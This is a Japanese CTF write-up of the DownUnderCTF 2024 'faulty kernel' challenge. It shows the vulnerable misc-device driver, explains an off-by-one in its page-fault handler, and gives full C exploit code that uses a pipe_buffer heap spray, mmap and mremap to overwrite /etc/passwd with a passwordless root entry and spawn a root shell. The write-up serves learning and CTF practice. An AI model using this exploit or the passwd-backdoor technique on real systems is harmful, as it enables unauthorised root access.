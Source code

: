 +++
title = "DownUnderCTF 2024 | faulty kernel"
date = 2024-07-10
description = "Linux kernelなんもわからん"
[taxonomies]
tags = ["pwn", "kernel"]
+++

[DownUnderCTF](https://ctftime.org/event/2284)のupsolveです。


# Faulty Kernel
## 概要

KernelはLinux 6.10.0-rc4で、SMAP,SMEP,kASLRは有効です。

mmapとfault handlerがあるmisc deviceを登録するカーネルオブジェクトが渡されます。
```c
#define PAGECOUNT (128)

struct shared_buffer {
	pgoff_t pagecount;
	struct page** pages;
};

static struct miscdevice dev;

static struct file_operations dev_fops = {
	.owner = THIS_MODULE,
	.open = dev_open,
	.mmap = dev_mmap
};

static struct vm_operations_struct dev_vm_ops = {
	.fault = dev_vma_fault
};

static int dev_mmap(struct file* filp, struct vm_area_struct* vma) {
	struct shared_buffer* sbuf = filp->private_data;
	pgoff_t pages = vma_pages(vma);
	if (pages > sbuf->pagecount) {
		return -EINVAL;
	}

	vma->vm_ops = &dev_vm_ops;
    	vma->vm_private_data = sbuf;

	return SUCCESS;
}

static vm_fault_t dev_vma_fault(struct vm_fault *vmf) {
	struct vm_area_struct *vma = vmf->vma;
	struct shared_buffer *sbuf = vma->vm_private_data;

	pgoff_t pgoff = vmf->pgoff;

    	if (pgoff > sbuf->pagecount) {
        	return VM_FAULT_SIGBUS;
    	}

	get_page(sbuf->pages[pgoff]);
	vmf->page = sbuf->pages[pgoff];

	return SUCCESS;
}

static int dev_open(struct inode* inodep, struct file* filp) {
	int i;
	struct shared_buffer* sbuf;

	sbuf = kzalloc(sizeof(*sbuf), GFP_KERNEL);
	if (!sbuf) {
		printk(KERN_INFO "[dev] Failed to initilise buffer.\n");
		goto fail;
	}

	sbuf->pagecount = PAGECOUNT;
	sbuf->pages = kmalloc_array(sbuf->pagecount, sizeof(*sbuf->pages), GFP_KERNEL);
	if (!sbuf->pages) {
		printk(KERN_INFO "[dev] Failed to initilise buffer.\n");
		goto fail_alloc_buf;
	}

	for (i = 0; i < sbuf->pagecount; i++) {
		sbuf->pages[i] = alloc_page(GFP_KERNEL);
		if (!sbuf->pages[i]) {
			printk(KERN_ERR "[dev] Failed to allocate page %d.\n", i);
			goto fail_alloc_pages;
		}
	}

	filp->private_data = sbuf;
	return SUCCESS;

fail_alloc_pages:
	while (i--) {
		if (sbuf->pages[i]) {
			__free_page(sbuf->pages[i]);
		}
	}

	kfree(sbuf->pages);
fail_alloc_buf:
	kfree(sbuf);
fail:
	return FAIL;
}

static int dev_init(void) {
	dev.minor = MISC_DYNAMIC_MINOR;
    	dev.name = DEV_NAME;
    	dev.fops = &dev_fops;
    	dev.mode = 0644;

	if (misc_register(&dev)) {
        	return FAIL;
    	}


	printk(KERN_INFO "[dev] It's mappin' time!\n");

	return SUCCESS;
}
```
図示すると以下のような状態になっています。
{{ image(path="static/overview.png", caption="問題の概観") }}


## 脆弱性
脆弱性は`dev_vma_fault`関数にあります。 \
この関数は、pagefaultが発生した際にpgoff番目のpageを返す処理を実装していますが、`sbuf->pagecount`はpagesの個数を表しているためoff-by-oneが発生します。
```c
if (pgoff > sbuf->pagecount) {
    return VM_FAULT_SIGBUS;
}

get_page(sbuf->pages[pgoff]);
vmf->page = sbuf->pages[pgoff];
```

## 攻撃
mmap時のチェックに問題はないので、mmapに渡せる最大サイズは`PAGE *
128`となります。その後mremapを呼び、sizeを`PAGE * 129`に変更し`sbuf->pages[128]`にアクセスすると上記のOOB Readが出来ます。\
では、どのオブジェクトを隣接させると良いでしょうか？
pagesは`kmalloc_array(sbuf->pagecount, sizeof(*sbuf->pages),
GFP_KERNEL)`で確保され、これはkmalloc-1kに入ります。ということは、最初の8byteが`page*`、かつ、kmalloc-1k
sizedな構造体を探すと良さそうでこれは[pipe_buffer](https://elixir.bootlin.com/linux/v6.10-rc4/source/include/linux/pipe_fs_i.h#L26)が該当します。\
したがって、exploit時のheapの状態はこのようになっていると良さそうです。
{{ image(path="static/exploit.png", caption="exploit前のheapの状態") }}

というわけで権限昇格までの流れは以下のとおりになります。

1. kmalloc 1kを埋める
2. pipe_bufferを大量に確保
3. pipe_bufferを1つおきに開放
4. pipe_bufferの先頭要素を/etc/passwdのpageに変更
5. 問題のドライバにmmap
6. mremap
7. OOB Readを使って/etc/passwdに書き込み


## Exploit
```c
#include "./exploit.h"
#include "./common.h"

/*********** commands ******************/
#define DEV_PATH "/dev/challenge"   // the path the device is placed

#define PAGECOUNT 128

/*********** constants ******************/
// (END globals)

struct fd_pair {
  int fd[2];
};

struct fd_pair pairs[0x100];

void heap_spray() {
  for (int i = 0; i < 0x100; i++) {
    if (pipe(pairs[i].fd)) {
      errExit("pipe");
    }
  }

  for (int i = 0; i < 0x100; i++) {
    if (!(i % 2)) {
      if (close(pairs[i].fd[0]) || close(pairs[i].fd[1])) {
	errExit("close");
      }
    }
  }
}

void splice_pipe(void *addr) {
  for (int i = 0; i < 0x100; i++) {
    if (i % 2) {
      struct iovec iov = {.iov_base=addr, .iov_len=PAGE};
      if (vmsplice(pairs[i].fd[1], &iov, 1, 0) < 0) {
	errExit("vmsplice");
      }
    }
  }
}

int main(int argc, char *argv[]) {
  char *BACKDOOR = "root::0:0:root:/root:/bin/sh";
  int passwd_fd = SYSCHK(open("/etc/passwd", O_RDONLY));
  void* passwd_addr = SYSCHK(mmap(0, PAGE, PROT_READ, MAP_SHARED, passwd_fd, 0));
  printf("passwd addr: %p\n", passwd_addr);
  heap_spray();
  int fd = open(DEV_PATH, O_RDWR);
  splice_pipe(passwd_addr);

  void* old_addr = SYSCHK(mmap(0, PAGE * PAGECOUNT, PROT_READ|PROT_WRITE, MAP_SHARED, fd, 0));
  void* new_addr = SYSCHK(mremap(old_addr,PAGE * PAGECOUNT, (PAGE+1) * PAGECOUNT, MREMAP_MAYMOVE));
  char* passwd_str = (char*)new_addr+(PAGE*PAGECOUNT);
  int pid = getpid();
  memcpy(passwd_str, BACKDOOR, strlen(BACKDOOR)+1);
  system("/bin/su -");
  system("/bin/sh");

  // end of life
  puts("[ ] END of life...");
  sleep(999999);
}
```
概略はつかめると思いますが、使っているマクロの詳細などを知りたい方は[GitHub](https://github.com/rqdaA/kernel-ctf/tree/master/faulty_kernel)まで。
